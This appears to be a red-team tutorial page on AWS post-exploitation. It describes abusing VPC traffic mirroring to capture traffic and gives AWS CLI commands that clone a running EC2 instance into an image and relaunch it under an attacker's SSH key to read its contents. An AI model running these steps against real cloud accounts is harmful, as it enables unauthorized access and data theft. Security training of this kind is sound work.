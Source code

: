# AWS - EC2, EBS, SSM & VPC Post Exploitation

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## EC2 & VPC

For more information check:

{% content-ref url="../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### **Malicious VPC Mirror -** `ec2:DescribeInstances`, `ec2:RunInstances`, `ec2:CreateSecurityGroup`, `ec2:AuthorizeSecurityGroupIngress`, `ec2:CreateTrafficMirrorTarget`, `ec2:CreateTrafficMirrorSession`, `ec2:CreateTrafficMirrorFilter`, `ec2:CreateTrafficMirrorFilterRule`

VPC traffic mirroring **duplicates inbound and outbound traffic for EC2 instances within a VPC** without the need to install anything on the instances themselves. This duplicated traffic would commonly be sent to something like a network intrusion detection system (IDS) for analysis and monitoring.\
An attacker could abuse this to capture all the traffic and obtain sensitive information from it:

For more information check this page:

{% content-ref url="aws-malicious-vpc-mirror.md" %}
[aws-malicious-vpc-mirror.md](aws-malicious-vpc-mirror.md)
{% endcontent-ref %}

### Copy Running Instance

Instances usually contain some kind of sensitive information. There are different ways to get inside (check [EC2 privilege escalation tricks](../../aws-privilege-escalation/aws-ec2-privesc.md)). However, another way to check what it contains is to **create an AMI and run a new instance (even in your own account) from it**:

```shell
# List instances
aws ec2 describe-images

# create a new image for the instance-id
aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1  

# add key to AWS
aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1  

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance 
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1 

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
```